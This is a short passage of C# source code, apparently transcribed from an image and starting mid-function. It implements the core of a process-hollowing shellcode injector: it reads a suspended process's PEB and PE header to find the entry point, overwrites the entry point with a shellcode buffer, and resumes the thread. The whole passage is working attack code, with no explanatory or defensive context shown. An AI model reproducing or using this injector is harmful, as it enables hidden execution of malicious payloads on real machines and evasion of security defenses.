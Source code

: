 ```csharp
        long qResult = ZwQueryInformationProcess(ProcInfo.hProcess, 0, ref BasicInfo, (uint)(IntPtr.Size * 6), ref tmp);
        IntPtr baseImageAddr = (IntPtr)((Int64)BasicInfo.PebAddress + 0x10);

        byte[] addrBuf = new byte[0x8];
        IntPtr bytesRW = new IntPtr();
        bool result = ReadProcessMemory(ProcInfo.hProcess, baseImageAddr, addrBuf, addrBuf.Length, out bytesRW);
        IntPtr executableAddress = (IntPtr)BitConverter.ToInt64(addrBuf, 0);


        byte[] data = new byte[0x200];
        result = ReadProcessMemory(ProcInfo.hProcess, executableAddress, data, data.Length, out bytesRW);
        uint e_lfanew_offset = BitConverter.ToUInt32(data, 0x3c);
        uint opthdr = e_lfanew_offset + 0x28;
        uint entrypoint_rva = BitConverter.ToUInt32(data, (int)opthdr);
        IntPtr addressOfEntryPoint = (IntPtr)((Int64)executableAddress + entrypoint_rva);


        result = WriteProcessMemory(ProcInfo.hProcess, addressOfEntryPoint, shellcode, shellcode.Length, out bytesRW);

        uint rResult = ResumeThread(ProcInfo.hThread);
    }
}
```